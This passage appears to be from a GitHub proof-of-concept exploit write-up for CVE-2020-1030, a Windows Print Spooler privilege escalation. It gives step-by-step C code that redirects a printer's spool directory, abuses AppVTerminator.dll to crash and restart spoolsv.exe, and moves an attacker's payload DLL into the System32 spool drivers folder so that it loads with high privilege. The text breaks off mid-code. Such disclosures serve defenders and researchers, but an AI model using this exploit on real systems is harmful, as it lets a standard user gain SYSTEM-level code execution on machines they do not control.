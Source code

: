 >Individual spool directories are supported by defining the SpoolDirectory value in a printer’s registry key. If unspecified, the printer is mapped to the DefaultSpoolDirectory instead. 

```c
cbData = ((DWORD)wcslen(pszDriverPath) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"\\", L"SpoolDirectory", REG_SZ, (LPBYTE)pszDriverPath, cbData);
```

3. The `CreateDirectory` primitive is only available in a spooler service initialization code path (`SplCreateSpooler -> BuildPrinterInfo`).

> The spool directory is created (or mapped if it exists) when localspl!SplCreateSpooler calls localspl!BuildPrinterInfo. This has only been observed when the spooler service initializes; therefore, changes to a printer’s spool directory aren’t reflected until service has restarted. 

As a standard user can't restart the privileged Spooler service, the solution is to either wait for a restart, or forcefully restart spooler. 

>Enter AppVTerminator.dll. This library is a signed Microsoft binary included in Windows (confirmed on Windows 10). When loaded into spooler, the library calls TerminateProcess which subsequently kills the spoolsv.exe process. This event triggers the recovery mechanism in the Service Control Manager which in turn starts a new spooler process.

```c
cbData = ((DWORD)wcslen(L"AppVTerminator.dll") + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"CopyFiles\\Payload", L"Module", REG_SZ, (LPBYTE)L"AppVTerminator.dll", cbData);

```
<sub>Levearge the `LoadLibrary` primitive to kill the print spooler and force a `spoolsv.exe` restart. </sub>

4. Wait for the spooler to restart. 
5. Force Spooler initialization by calling `EnumPrinters` which triggers the `BuildPrinterInfo` code path. 
```c
if (!EnumPrinters(PRINTER_ENUM_LOCAL, NULL, 2, NULL, 0, &cbNeeded, &cReturned))
```
6. Check for directory creation. Copy payload to `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\4\<payload>.dll`.
```c
// Move payload to spool directory

mbstowcs_s(NULL, szDll, strlen(argv[1]) + 1, argv[1], MAX_PATH);
GetFullPathName(szDll, MAX_PATH, szSource, &pszFileName);
wcscpy_s(szDestination, MAX_PATH, pszDriverPath);
wcscat_s(szDestination, MAX_PATH, L"\\");
wcscat_s(szDestination, MAX_PATH, pszFileName);

if (!MoveFile(szSource, szDestination))
{
	printf("Failed: MoveFile(), Src: %ls, Dst: %ls. Error: %d\n", szSource, szDestination, GetLastError());
	ClosePrinter(hPrinter);
	return -1;
}
```
7. Open the *CVE-2020-1030* printer (needed because the spooler process has exited since we last held the handle).
```c
// Get printer handle

memset(&printerDefaults, 0, sizeof(printerDefaults));
printerDefaults.DesiredAccess  = PRINTER_ALL_ACCESS;

if (!OpenPrinter(pszPrinterName, &hPrinter, &printerDefaults))
{
```